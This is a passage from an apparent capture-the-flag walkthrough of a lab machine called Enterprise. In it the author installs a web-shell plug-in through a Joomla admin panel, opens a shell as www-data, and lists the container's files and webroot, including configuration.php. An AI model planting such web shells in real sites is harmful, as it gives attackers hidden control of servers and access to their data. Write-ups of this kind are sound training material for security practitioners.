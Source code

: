 There's an error on the admin panel, but still the upper tab menu is activated.
I'll try the "Plug-in" approach used in [DEVVORTEX](../Devvortex/DEVVORTEX.md).

I uploaded a plug-in zip file in `/dist` directory, and installed the extension.
Then, I can open an interactive shell with `console.py`.

```bash
┌──(kali㉿kali)-[~/htb/Joomla-webshell-plugin]
└─$ python console.py -t http://enterprise.htb:8080
[webshell]> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As I found before, it's also in docker environment.
I can find it with `.dockerenv` file.

```bash
[webshell]> ls -al
total 80
drwxr-xr-x  77 root root 4096 May 30  2022 .
drwxr-xr-x  77 root root 4096 May 30  2022 ..
-rwxr-xr-x   1 root root    0 Sep  3  2017 .dockerenv
drwxr-xr-x   2 root root 4096 May 30  2022 bin
drwxr-xr-x   2 root root 4096 May 30  2022 boot
drwxr-xr-x   5 root root  340 Jan  3 06:21 dev
-rwxrwxr-x   1 root root 3131 Aug 31  2017 entrypoint.sh
drwxr-xr-x  70 root root 4096 May 30  2022 etc
drwxr-xr-x   2 root root 4096 May 30  2022 home
```

Same message on `user.txt` flag.

```bash
[webshell]> cat /home/user.txt
As you take a look around at your surroundings you realise there is something wrong.
This is not the Enterprise!
As you try to interact with a console it dawns on you.
Your in the Holodeck!
```

Let's see what's in the webroot directory.

```yaml
[webshell]> ls -al /var/www/html
total 16988
drwxr-xr-x 18 www-data www-data    4096 May 30  2022 .
drwxr-xr-x  4 root     root        4096 May 30  2022 ..
-rw-r--r--  1 www-data www-data    3006 Sep  3  2017 .htaccess
-rw-r--r--  1 www-data www-data   18092 Aug 14  2017 LICENSE.txt
-rw-r--r--  1 www-data www-data    4874 Aug 14  2017 README.txt
drwxr-xr-x 11 www-data www-data    4096 May 30  2022 administrator
drwxr-xr-x  2 www-data www-data    4096 May 30  2022 bin
drwxr-xr-x  2 www-data www-data    4096 May 30  2022 cache
drwxr-xr-x  2 www-data www-data    4096 May 30  2022 cli
drwxr-xr-x 20 www-data www-data    4096 May 30  2022 components
-r--r--r--  1 www-data www-data    3053 Sep  6  2017 configuration.php
-rwxrwxr-x  1 www-data www-data    3131 Sep  7  2017 entrypoint.sh
drwxrwxrwx  2 root     root        4096 Oct 17  2017 files
-rw-rw-rw-  1 www-data www-data 5457775 Sep  8  2017 fs.out
-rw-rw-rw-  1 www-data www-data 8005634 Sep  8  2017 fsall.out
-rw-rw-rw-  1 www-data www-data 2044787 Sep  7  2017 goonthen.txt
-rw-r--r--  1 www-data www-data    3005 Aug 14  2017 htaccess.txt
drwxr-xr-x  5 www-data www-data    4096 May 30  2022 images
drwxr-xr-x  2 www-data www-data    4096 May 30  2022 includes
-rw-r--r--  1 www-data www-data    1420 Aug 14  2017 index.php
drwxr-xr-x  4 www-data www-data    4096 May 30  2022 language
drwxr-xr-x  5 www-data www-data    4096 May 30  2022 layouts
drwxr-xr-x 11 www-data www-data    4096 May 30  2022 libraries
-rw-rw-r--  1 www-data www-data     968 Sep  7  2017 makedb
```